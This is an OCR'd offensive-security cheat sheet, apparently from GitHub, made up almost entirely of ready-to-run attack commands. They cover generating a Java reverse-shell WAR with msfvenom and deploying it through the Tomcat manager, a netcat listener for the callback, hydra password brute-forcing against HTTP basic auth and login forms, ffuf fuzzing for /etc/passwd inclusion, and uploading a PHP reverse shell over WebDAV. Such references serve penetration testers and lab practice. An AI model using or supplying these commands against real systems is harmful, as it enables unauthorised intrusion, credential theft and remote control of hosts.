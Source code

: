 - Tomcat Panel Remote Code Execution

```  
# Generate payload
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war

# Upload payload
Tomcat6 :
wget 'http://<USER>:<PASSWORD>@<IP>:8080/manager/deploy?war=file:shell.war&path=/shell' -O -

Tomcat7 and above :
curl -v -u <USER>:<PASSWORD> -T shell.war 'http://<IP>:8080/manager/text/deploy?path=/shellh&update=true'

# Listener
nc -lvp <PORT>

# Execute payload
curl http://<IP>:8080/shell/
```

- HTTP bruteforce basic authentication 

`Attacking http-get/http-post login page `
```  
hydra -l <USER> -V -P <PASSWORDS_LIST> -s 80 -f <IP> http-get /<URL_ENDPOINT>/ -t 15
```

- HTTP GET request 

```  
hydra <IP> -V -l <USER> -P <PASSWORDS_LIST> http-get-form  "/login/:username=^USER^&password=^PASS^:F=Error:H=Cookie: safe=yes; PHPSESSID=12345myphpsessid" -t <THREADS_NUMBER>
```

- HTTP POST request

```  
hydra -l <USER> -P <PASSWORDS_LIST> <IP> http-post-form "/webapp/login.php:username=^USER^&password=^PASS^:Invalid" -t <THREADS_NUMBER>
```

- ffuf

```  
ffuf -u ‘http://<ip_address>/path/to_file.php?FUZZ=/etc/passwd’ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -fs 0
```

- Uploading files using curl

```  
#Do this to check if you can upload files
curl -u "username:password" -X PUT http://10.10.10.10/path/to/directory/listing

#If it worked upload a reverse shell using CADAVER
cadaver <url>/uploads/
Username:
password:
PUT php-reverse-shell.php
```
